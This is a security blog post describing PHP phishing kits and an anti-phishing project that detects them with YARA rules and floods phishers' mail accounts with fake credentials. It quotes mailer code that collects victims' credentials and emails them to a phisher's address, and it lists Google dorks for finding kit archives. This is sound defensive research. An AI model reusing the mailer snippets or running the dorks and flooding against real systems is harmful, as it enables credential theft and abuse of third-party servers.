 ```yaml
---
layout: post
title: ActiveAntiPhish - Protecting Stolen Credentails Using Saturation
author: Chad Baxter
date: 2018-06-16
tags: ["phishing", "databases", "security", "phishkits"]
---
```


<h3>Background</h3>

Over the past week I've started a new project involving phishing kits. These nasty little things are usually zip files that a hacker has paid for on an underground website or forum. They take many forms and are used to phish for many different types of credentials. Most phishers target the end user by sending an email that looks like it comes from the company with which they have an account when in fact the link in the email is a link to a phishing kit.

These kits are all created in PHP and all have the same coding style. It seems the underground phishing community has a standard they think is best which they follow faithfully. Because there are _thousands_ of different versions of these kits I thought it would be hard to write a good YARA rule to detect them. Turns out this "tried and true" format persists across almost 90% of them.

With [ActiveAntiPhish](https://www.github.com/LogoiLab/ActiveAntiPhish) my goal is to create an application that allows for easy detection of phishing kits found on your servers as well as those that show up in your emails. If you were to somehow accidentally input your credentials into a phishing kit ActiveAntiPhish's goal is to make it really hard for the phisher to use those credentials.

<h3>PhishKit Design</h3>

A phishing kit is commonly comprised of three parts, the _index_, the _blocker_, and the _mailer_.

<h4>The Index</h4>

The index page is usually a cloned page of the target website with the form fields changed to point to the _mailer_. For simple accounts these files are generally single page in style with a redirect to the official site. For banking phishkits the _index_ may be three to four separate pages for grabbing things like routing number, account number, pins, credit card info, and more.

<h4>The Blocker</h4>

Copy-pasting is virulent in the phishing community. The blocking script is the most common code among phishkits. This simple PHP script uses things like headers and user agent strings to determine if the computer visiting the page is a bot. The most commonly blocked bots are those by security companies and anti-phishing efforts like [PhishTank](https://phishtank.com/). Often phishers block entire IP ranges of countries they do not want credentials from. These vary based on the phisher.

<h4>The Mailer</h4>

This chunk of code is the main interest of ActiveAntiPhish as it is what exfiltrates stolen user info. It commonly has four parts with another debug-like part that shows up occasionally.

The first part gathers info about the user such as IP, country of origin, and User Agent string. An example of this section can be found here:

```php
$country = visitor_country();
$ip = getenv("REMOTE_ADDR");
$_SESSION['UserName'] = $_POST['UserName'];
$port = getenv("REMOTE_PORT");
$browser = $_SERVER['HTTP_USER_AGENT'];
$adddate=date("D M d, Y g:i a");
```

`visitor_country()` in this case is a function that uses publicly available geolocation APIs to get the victim's country of origin.

The second part creates the log, this compiles all of the gathered info including the stolen credentials into a multi-line PHP string. This log contains lots of identifiable strings and is usually what ActiveAntiPhish uses to identify the _mailer_. An example log section:

```php
$message .= "-----------  ! +Citi LOGIN ! xDD+ !  -----------\n";
$message .= "-----------  ! +Account infoS+ !  -----------\n";
$message .= "Email Address        : ".$_POST['username']."\n";
$message .= "Password               : ".$_POST['passwd']."\n";
$message .= "IP Address             : ".$ip."\n";
$message .= "-----------  ! +nJoY+ !  -----------\n";
```

Phishers like to tag their logs for an unknown reason. These tags are very identifiable. The structure of dashes with tags in the middle is common among all _mailers_. The YARA rules currently in use by ActiveAntiPhish trigger on this format as well as unique tags.

The third part is where the _mailer_ gets its name. It composes the headers and addresses to send an email to a throwaway account that the phisher controls. It looks a little something like this:

```php
$send = "REDACTED@gmail.com";
$subject = "Office365 logs xD $ip";
$headers = "From:  El Patr0n<xCoNsoLe@REDACTED.com>";
$headers .= $_POST['eMailAdd']."\n";
$headers .= "MIME-Version: 1.0\n";
$arr=array($send, $IP);
foreach ($arr as $send)
mail($send,$subject,$message,$headers);
```

As you can see there are a lot of unique strings here, in fact phishers seem to like 1337SpEaK. This makes it easy to detect.

The fourth part is often the redirect. This is an attempt to make the phishing page look legit by either logging you into or forwarding you on to the homepage of the impersonated site:

```php
header("Location: https://login.microsoftonline.com/");
```

This part of the _mailer_ is only helpful in identifying phishkits when used in conjunction with the above indicators.

The fifth and optional part is usually used to debug the mailer or is used as a fallback in case the throwaway account gets banned. It creates a local file and writes the log that would have been sent via email to the file. Phishkits that do this help us better understand who is being targeted as usually the log files are publicly readable. This allows me to contact those affected, especially those who had their corporate or university email stolen. The fallback option looks something like this:

```php
$handle = fopen("script.txt", "a");
fwrite($handle, $message);
fclose($handle);
```

<h3>PhishKit Collection</h3>

The method I use for gathering phishkits is usually a list of Google dorks. [PhishTank](https://phishtank.com/) is a good source if you're willing to hunt. Things to look for when hunting for phishkits are open directories with odd file and folder names. For example, here is a Google dork for Microsoft phishkits:

```
intitle:"Index of" insite:"onedrive" ".zip"
```

Once you find one you can continue to find more by using filenames you find to be common. Another common Microsoft phishkit dork:

```
intitle:"Index of" insite:"m1cr0" ".zip"
```

These dorks work because of the way phishers exploit vulnerable web servers. Often times a phisher finds a way of uploading a PHP webshell, this can be through poorly implemented upload pages or exploits (looking at you revslider). They then use the webshell to upload a zip file of the phishkit. They later extract the zip file and their kit is ready to go. Most phishers forget to delete the zip file after they're done. This allows us to download a copy of their phishkit. We now know how to interact with their _mailer_ script which allows us to automate saturation of the phisher's email account.

<h3>Saturation</h3>

Most throwaway accounts are GMail accounts the reason for this is unknown. But this allows us to make some educated guesses as to the limits of the account. GMail only allows its users to receive about 60 emails per minute (or an email a second). ActiveAntiPhish will be able to saturate the phisher's account with ease simply by calling the _mailer_ script. It is not known how GMail handles email flooding. But we can assume the server sending the email gets banned when it reaches the daily limit. That's 1 email a second, for every minute of 24 hours or __86,400__ emails. Once we reach this point the GMail documentation is very clear that the server is banned for 24 hours for the first offense.

This is important because if the phisher does not have a fallback email or logfile they have lost the ability to collect logs for the day while also having their inbox full of fake credentials. This would give a targeted company or individual time to contact webhosts and domain registrars to get the phishing page taken down.

The whole point of saturation is to increase the noise in the signal to noise ratio. This makes it difficult for a phisher to verify stolen credentials, making it very likely for them to just abandon that email account. Because the fake traffic is generated by the site with the _mailer_ the computer running ActiveAntiPhish is not likely to get banned.

<h3>Closing</h3>

The indicators of compromise that can be gleaned from phishkits allow us to build robust YARA rules for detecting their presence on our networks. The rules used by ActiveAntiPhish can be found in the repo here: [phishkit.yar](https://www.github.com/LogoiLab/ActiveAntiPhish/master/rules/).

ActiveAntiPhish is still under heavy development and is currently in the research phase. Any contributions are welcome. You can find the repo [HERE](https://www.github.com/LogoiLab/ActiveAntiPhish).

<h3>References</h3>

[https://support.google.com/a/answer/1366776?hl=en](https://support.google.com/a/answer/1366776?hl=en)
